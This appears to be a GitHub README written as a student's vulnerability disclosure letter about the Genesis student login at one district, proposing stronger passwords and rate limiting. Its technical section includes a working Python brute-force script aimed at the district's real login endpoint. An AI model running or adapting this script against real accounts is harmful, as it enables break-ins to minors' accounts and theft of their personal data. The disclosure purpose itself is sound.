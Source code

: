 # Genesis Password Concern [![Rust](https://github.com/Basicprogrammer10/SchoolPasswordCrack/actions/workflows/rust.yml/badge.svg)](https://github.com/Basicprogrammer10/SchoolPasswordCrack/actions/workflows/rust.yml) ![Lines of code](https://img.shields.io/tokei/lines/github/basicprogrammer10/SchoolPasswordCrack?label=Total%20Lines)

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly. This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible. This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account. I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it). Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes! So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts. Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number. This means that for many student passwords only four digits need to be cracked. This is bad because it lowers the time to crack passwords. I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes. This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords. Secure passwords have 10 characters made up of letters, numbers, and special characters. These passwords should not be able to be seen by teachers or other staff but could be reset if needed. This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system. This is something that would require working with the Genesis 'team' to fix but would be *ok* if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession. For example, the program mentioned above was able to make over 30 requests per second. This allows simple brute force attacks (such as this one) to work. Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA. 

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used. Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it. At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk. I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security! As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students. I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor Slade

connorslade@bernardsboe.com

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164). This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/bernardsboe/sis/view` to get the `JSESSIONID` cookie assigned by the server. Then it sends POST requests to `https://parents.genesisedu.com/bernardsboe/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack (ex: connorslade@bernardsboe.com). I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account. Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/bernardsboe/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/bernardsboe/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@bernardsboe.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried
    # Create new session to hold cookies
    ses = requests.Session()
    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)
    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}
    # Try Password
    data = ses.post(url, data=dataToSend)
    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations. To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
